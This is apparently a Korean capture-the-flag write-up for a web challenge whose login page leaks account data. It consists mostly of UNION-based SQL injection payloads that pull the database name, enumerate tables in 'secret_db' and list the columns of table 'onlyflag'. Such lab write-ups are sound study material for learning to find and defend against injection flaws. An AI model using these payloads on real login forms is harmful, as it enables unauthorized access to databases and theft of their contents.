

### 문제 설명
```
로그인 시 계정의 정보가 출력되는 웹 서비스입니다.
SQL INJECTION 취약점을 통해 플래그를 획득하세요. 문제에서 주어진 init.sql 파일의 테
이블명과 컬럼명은 실제 이름과 다릅니다.
```

### db명 불러들이기
```
' UNION SELECT (SELECT DATABASE()), 2, 3, 4-- -
```


### 테이블명 불러들이기
```
' UNION SELECT (SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'secret_db' LIMIT 0,1), 2, 3, 4-- -
' UNION SELECT (SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'secret_db' LIMIT 1,1), 2, 3, 4-- -
```




### 아래는 컬럼명 불러들이기
```
' UNION SELECT (SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'onlyflag' AND table_schema = 'secret_db' LIMIT 0,1), 2, 3, 4-- -
' UNION SELECT (SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'onlyflag' AND table_schema = 'secret_db' LIMIT 1,1), 2, 3, 4-- -
' UNION SELECT (SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'onlyflag' AND table_schema = 'secret_db' LIMIT 2,1), 2, 3, 4-- -
' UNION SELECT (SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'onlyflag' AND table_schema = 'secret_db' LIMIT 3,1), 2, 3, 4-- -
' UNION SELECT (SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'onlyflag' AND table_schema = 'secret_db' LIMIT 4,1), 2, 3, 4-- -
' UNION SELECT (SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'onlyflag' AND table_schema = 'secret_db' LIMIT 5,1), 2, 3, 4-- -


idx	sname	svalue	sflag	sclose
```


